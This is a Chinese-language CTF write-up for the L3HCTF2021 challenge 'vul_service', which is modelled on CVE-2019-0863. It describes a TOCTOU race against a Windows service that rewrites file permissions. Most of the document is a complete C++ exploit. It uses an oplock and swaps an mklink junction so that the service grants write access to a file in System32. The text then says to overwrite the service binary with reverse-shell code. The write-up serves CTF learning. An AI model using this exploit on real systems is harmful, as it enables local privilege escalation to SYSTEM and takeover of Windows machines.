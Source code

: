 # L3HCTF2021


# L3GHCTF2021 PWN
躺了个第一，被带飞了。
<!-- more -->
看了一下只有这题值得记录👇

## vul_service
### 分析
题目来自CVE-2019-0863，注册了一个系统服务，功能是会不断遍历tmp目录下文件，读取其权限并写回去，注意到是根据文件名来判断并且没有加锁，考虑使用TOCTOU来攻击。

参考[这篇文章](https://lucabarile.github.io/Blog/toctou/index.html)了解TOCTOU，比较好理解的一种条件竞争，使用SetOplock在读取时锁住，并修改符号链接即可非预期修改别的文件的权限。通过这里主要学到了很多windows的知识，如权限控制的DACL，计划任务等。

### 思路
感谢FMYY和2st的帮助。

首先在tmp同级创建一个target目录，其中创建同名文件vul_service.exe，这里建议从system32中直接复制出来并删除继承关系，这样就有了Attacker的权限。

主要思路就是在tmp创建一个符号链接指target，用SetOplock锁住该同名文件。当计划任务访问时，删除符号链接并创建一个指向system32的，就可以把权限写给System32中的漏洞程序，然后替换为反弹shell的恶意代码即可。

### exp
```cpp
#include "stdafx.h"
#include<tchar.h>
#include<strsafe.h>
#include "TcpClient.h"
static FileOpLock* oplock = nullptr;
static bstr_t target_2;
#define BUFSIZE 4096
void HandleOplock()
{

	DebugPrintf("OpLock Triggered");
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Windows\\System32");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	Sleep(2000);
	
}

int _tmain(int argc, _TCHAR* argv[])
{
	wprintf_s(L"[+] hrnPA !\n");

	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Users\\Public\\target");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	//Sleep(2000);
	int sign = 0;
	if (argc < 2)
	{
		printf("Usage: SetOpLock target [rwdx]\n");
		printf("Share Mode:\n");
		printf("r - FILE_SHARE_READ\n");
		printf("w - FILE_SHARE_WRITE\n");
		printf("d - FILE_SHARE_DELETE\n");
		printf("x - Exclusive lock\n");
		sign = 1;
	}
	else
	{
		LPCWSTR target = argv[1];
		LPCWSTR share_mode = argc > 2 ? argv[2] : L"";

		oplock = FileOpLock::CreateLock(target, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);
			delete oplock;

		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}
	}
	if (sign) {
		TcpClient tcpClient;
		int iRes = 0;

		wprintf_s(L"[+] Trigger launched.\n");
		wprintf_s(L"[*] TCP connecting...\n");


		wprintf_s(L"[*] Waiting for the VulService to be Execute...\n");


		Sleep(50000);

		iRes = tcpClient.connectTCP("127.0.0.1", "1337");

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");

			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");


			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[-] Exploit failed.");
		}
		else
		{
			wprintf_s(L"[+] Exploit successfull.");
		}
	}
	return 0;
}

```

效果如下：
![win](./L3HCTF2021/1.png)
此时替换为反弹shell的恶意代码即可。
